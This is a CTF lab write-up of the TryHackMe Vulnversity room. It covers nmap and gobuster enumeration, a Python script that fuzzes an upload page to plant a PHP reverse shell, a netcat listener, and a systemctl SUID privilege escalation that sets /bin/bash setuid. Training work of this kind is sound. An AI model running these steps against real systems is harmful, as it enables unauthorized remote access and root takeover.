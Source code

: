 # TryHackMe - Vulnversity Writeup


[Link : https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Enumeration

First we need to do reconnaissance by using nmap (Network Mapper) to find open ports and to understand the machine. I'm gonna run this command:

```
nmap -sC -sV -O -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -O 	:= scan for OS (operating system) 	
* -oN := output in normal format

Now our nmap scan is done. So, let's do bad thing _evil grin_ lol. Just joking okayy.

![2](2.png)

We can see this machine have 6 ports open. The result always screaming that lot of services running on ubuntu. We can see that this machine also have squid proxy and the version too. So, first maybe we can try ftp login as anonymous but unfortunately we cannot login ftp as anonymous.

This machine have http on port 3333 and running on apache web server. Let's take a look!

![3](3.png)

OH! what a lovely website. We know that they have a website and we can enumerate futher by using gobuster tool. Gobuster is a tool for searching hidden directory in the web. If you doesn't have gobuster. You.... yeah...youuu can visit this [github repos](https://github.com/OJ/gobuster).

Let's run gobuster using this command

```
gobuster dir -u http://10.10.111.81:3333/ -w /opt/directory-medium.txt --no-error
```

### Explaining gobuster flag:
* dir	  := using directory mode
* -u		:= specify url
* -w		:= specify wordlist
* --no-error := no error

![4](4.png)

So, here's the result. If you look super close but not at the monitor though jk. Gobuster found a hidden directory called /internal. Let's go to that hidden directory.

![5](5.png)

Apparently, that's directory leads us to this page a.k.a upload page. We can upload php reverse shell on that.

## Foothold/Gaining Access

But how to get php reverse shell and how to setup, even how to use it. (it's okay I got you ladies & gentlemen)

1. Go to this [site here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
2. Download it or you can copy it. If you copy it, make sure to save it in the file with php extensions. example := revshell.php
3. Open the file and change the ip address to yours tryhackme ip address, If you want to change the port. Just change it. The port in this case is going to be a listing port.

![6](6.png)<br>
_original_

![7](7.png)<br>
_alter with ip and port_

However, when we upload a php file to the page it's gonna response ‘extension not allowed’. Looking back at the questions ‘TASK 4’. Now we know that we can fuzz this upload page with different file extensions.

So, I gonna make python script for that. You can use burpsuite if you want to. Why I'm using python script??? because I want to learn duhhh and I'm not saying that I really good in python NO. TBH I wacthed a lot of tutorial for just simple task and I keep adding time in this box. man oh man. It's worth it tho. So here is my script

```python
#!/usr/bin/python3

import requests
import os

url = "http://10.10.111.81:3333/internal/"
action = "/index.php"

data = {
	'file':'/index.php',
	'submit':'Submit'
}

oldfile = "revshell.php"
file = "revshell"

extensions = ['.php','.php3','.php4','.php5','.phtml']

for ext in extensions:
	newfile = file + ext
	rename = os.rename(oldfile, newfile)
	
	file_to_upload = {'file': open(newfile, 'rb')}

	r = requests.post(url + action, data=data, files=file_to_upload)

	if "Extension not allowed" in r.text:
		print(f"This file not allowed : {newfile}")
	else:
		print(f"This file is allowed : {newfile}")

	oldfile = newfile
```

Let's run the script and finally yes. We got a hit boys. This page only accept .phtml extensions. COOL

![8](8.png)

Now we need to setup netcat listener to the port that we change in the our reverse shell. If you can see I'm listen to the port 6969, because I'm using this port in my reverse shell

```
nc -lnvp 6969
```
To activated our reverse shell go to this url http://10.10.111.81:3333/internal/uploads/ . But how you found the `/uploads` directory. Good questions. Just run gobuster against /internal directory. We found this.

![9](9.png)

To activated our shell just double click at our reverse shell file. Mine here name revshell.phtml but yours maybe different. I don't know because this is mine not yourssss!!!! joking of course. Please don't be offended. HAHAHAHAH jk.

Now we're in!!!!Now let's hunt the user flag. So, let's navigate ourselves to the home directory to list a user directory. WOW!!! now we know that bill the one who manage this webserver.

![10](10.png)

Let's go into bill's home directory to find user flag. Yes we got a user flag. To read this flag you need to use the `cat command`

![11](11.png)

## Privilege Escalation

How to be root. Now we can do a basic enumeration if you want. Anyways, the questions ask what the most stand out file in SUID file. To find this file called SUID we need run this command

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/
```

So, this command means find all SUID file that owns by root user. After find it, make it the file in the list using ls. If we got an errors please don't display the errors to us. 

![12](12.png)

We got all of this but how to find the one that most stand out. You can make your linux machine as the base line. Try run the same command in your box and try compare it.

In this case the file called `/bin/systemctl` the most stands out. So, we're gonna use systemctl to be root but how. Easy, just go to this site called [GTFObins](https://gtfobins.github.io/#) . Try search systemctl suid in it.

So, I don't know where is the flag are. What I'm gonna do, is to make file `/bin/bash` as `SUID`. Hmm, sound fun! With it we can be root or to be specific euid root

To use this command just take all and copy it in the box

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
After you've done copy and paste that command. 
Run `/bin/bash -p` and now become root.

Just navigate through root directory and you found the flag

![13](13.png)

## Conclusion

I’ve learned a lot today. If you have an upload page on your website make sure you use the filter options. Filter out the bad file to make your site a bit safer. Also, you must configure your file permission very-very-very-very-very good. If you see, I become root with simple misconfigure file permission and that's it.

This room so much fun and I hope you guys have fun and learn something new today.
